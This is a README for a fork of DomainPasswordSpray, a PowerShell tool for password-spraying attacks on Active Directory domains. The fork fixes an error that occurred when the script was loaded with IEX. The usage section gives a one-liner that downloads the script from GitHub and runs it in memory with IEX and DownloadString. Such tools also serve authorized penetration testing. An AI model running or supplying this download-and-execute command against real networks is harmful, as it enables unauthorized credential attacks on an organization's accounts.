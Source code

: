 # DomainPasswordSpray - Changes
This is a fork, the original can be found [here](https://github.com/dafthack/DomainPasswordSpray)

The original script threw an error when being IEX-ed. This fork fixes that error. 

The script still displays errors when `Invoke-DomainPasswordSpray` is called, however it does work.

## Usage

```powershell
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/notb9/DomainPasswordSpray/master/DomainPasswordSpray.ps1")
```
## ToDo

  - [ ] Fix the runtime errors
